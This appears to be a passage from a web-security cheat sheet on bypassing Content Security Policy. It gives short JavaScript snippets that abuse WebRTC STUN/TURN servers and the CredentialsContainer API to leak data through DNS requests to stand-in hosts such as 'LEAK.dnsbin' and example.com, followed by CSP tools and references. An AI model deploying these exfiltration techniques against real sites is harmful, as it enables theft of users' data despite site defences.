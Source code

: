 On several pages you can read that **WebRTC doesn't check the `connect-src` policy** of the CSP.

Actually you can _leak_ informations using a _DNS request_. Check out this code:

```javascript
;(async () => {
  p = new RTCPeerConnection({ iceServers: [{ urls: "stun:LEAK.dnsbin" }] })
  p.createDataChannel("")
  p.setLocalDescription(await p.createOffer())
})()
```
```
Another option:

```javascript
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```
```
### CredentialsContainer

The credential popup sends a DNS request to the iconURL without being restricted by the page. It only works in a secure context (HTTPS) or on localhost.

```javascript
navigator.credentials.store(
  new FederatedCredential({
    id:"satoki", 
    name:"satoki", 
    provider:"https:"+your_data+"example.com", 
    iconURL:"https:"+your_data+"example.com"
    })
  )
```
```

## Checking CSP Policies Online

- [[https://csp-evaluator.withgoogle.com|https://csp-evaluator.withgoogle.com/]]
- [[https://cspvalidator.org/#url=https://cspvalidator.org/|https://cspvalidator.org/]]

## Automatically creating CSP

[[https://csper.io/docs/generating-content-security-policy|https://csper.io/docs/generating-content-security-policy]]

## References

- [[https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/|https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/]]
- [[https://lcamtuf.coredump.cx/postxss/|https://lcamtuf.coredump.cx/postxss/]]
- [[https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d|https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d]]
- [[https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme|https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme]]
- [[https://www.youtube.com/watch?v=MCyPuOWs3dg|https://www.youtube.com/watch?v=MCyPuOWs3dg]]
- [[https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/|https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/]]
```